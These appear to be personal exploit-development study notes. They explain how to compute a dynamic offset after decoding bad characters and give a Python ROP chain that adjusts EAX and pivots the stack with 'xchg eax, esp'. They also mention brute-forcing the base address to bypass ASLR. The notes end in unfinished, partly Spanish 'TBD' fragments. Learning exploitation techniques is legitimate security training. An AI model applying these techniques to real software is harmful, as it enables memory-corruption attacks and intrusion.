 We can add this value to the **index of the last bad character** to **dynamically** determine the distance from EAX when the ROP chain completes the decoding process. This is because **eax is displaced in the decoding process, so we have to dinamically obtain the latest "eax" value (after decoding the last badchar) and add 0x62f to such value. That is the complete offset value.**

The ROP chain to fix EAX to fit the simulated stack frame location would be the following:
```python
skeletonOffset = (-(badcharsArray[len(badcharsArray)-1] + 0x62f)) & 0xffffffff
rop += pack("<L", (dllBase + 0x117c)) # pop ecx ; ret
rop += pack("<L", (skeletonOffset)) # dynamic offset
rop += pack("<L", (dllBase + 0x1d0f0)) # add eax, ecx ; ret
rop += pack("<L", (dllBase + 0x5b415)) # xchg eax, esp ; ret
```

The operation -(value) & 0xffffffff is equivalent to 0x100000000 - value which stores the negative number in two’s complement form.
This is necessary because later in the ROP chain they don’t have a `sub eax, imm32` gadget available. Instead, they use the gadget: add eax, ecx ; ret. So it is a substraction but using the "add" gadget.

**Note: In 32 bits, if the program restarts if it crashes, it is also viable to bruteforce the base address to bypass ASLR rather than using a leak.**



TBD page 482

TBD Notes:
- 10 As porque habria que meter rops porque pone un parametro a 0.
- Metes As antes del tope de pila para que te ponga 0 ahi y no en los placeholder values.
- tro approach seria meter una rop chain para fixear esto.
- 